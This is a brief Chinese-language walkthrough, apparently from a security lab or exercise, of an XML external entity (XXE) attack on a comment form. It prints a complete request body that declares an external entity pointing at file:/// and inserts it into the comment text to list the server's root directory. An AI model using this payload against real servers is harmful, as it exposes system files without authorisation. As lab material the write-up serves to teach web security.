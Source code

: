 1. 发送一条评论，抓包  
![alt text](image-1.png)  
请求头使用了xml格式，请求体内容如下  
```xml  
<?xml version="1.0"?><comment>  <text>hello</text></comment>  
```  

2. 可以使用外部实体，指向根目录，然后添加在text标签中  
定义外部实体  
```  xml
<!DOCTYPE coment[<!ENTITY rt SYSTEM "file:///">]>
```  

所以新的请求体为  
```  xml  
<?xml version="1.0"?><!DOCTYPE coment[<!ENTITY rt SYSTEM "file:///">]><comment>  <text>&rt;</text></comment>
```  
修改后发送  

3. 
![alt text](image-2.png)  